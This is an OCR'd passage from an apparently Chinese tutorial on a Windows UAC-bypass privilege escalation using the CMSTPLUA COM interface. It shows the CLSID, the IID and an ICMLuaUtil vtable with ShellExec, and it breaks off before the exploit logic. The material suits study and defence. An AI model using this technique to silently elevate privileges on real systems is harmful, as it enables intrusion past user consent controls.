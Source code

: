 C:WindowsSysWOW64中的rundll32.exe用来调用64位DLL（SysWOW64是64位系统对32位程序的System32文件夹的重定向）

系统中还有一个Rundll.exe文件，他的意思是“执行16位的DLL文件”。

### 代码演示

这是含有COM提升名称代码导出函数的DLL源代码（包含了头文件），对于COM编程不必深究，重要的是提权的原理。

    
    
    // headers and definitions
    #include "pch.h"
    
    #include <objbase.h>
    #include <strsafe.h>
    
    #define CLSID_CMSTPLUA                     L"{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"
    #define IID_ICMLuaUtil                     L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}"
    
    typedef interface ICMLuaUtil ICMLuaUtil;
    
    typedef struct ICMLuaUtilVtbl {
    
    	BEGIN_INTERFACE
    
    		HRESULT(STDMETHODCALLTYPE* QueryInterface)(
    			__RPC__in ICMLuaUtil* This,
    			__RPC__in REFIID riid,
    			_COM_Outptr_  void** ppvObject);
    
    	ULONG(STDMETHODCALLTYPE* AddRef)(
    		__RPC__in ICMLuaUtil* This);
    
    	ULONG(STDMETHODCALLTYPE* Release)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method1)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method2)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method3)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method4)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method5)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* Method6)(
    		__RPC__in ICMLuaUtil* This);
    
    	HRESULT(STDMETHODCALLTYPE* ShellExec)(
    		__RPC__in ICMLuaUtil* This,
    		_In_     LPCWSTR lpFile,
    		_In_opt_  LPCTSTR lpParameters,
    		_In_opt_  LPCTSTR lpDirectory,
    		_In_      ULONG fMask,
    		_In_      ULONG nShow
    		);
    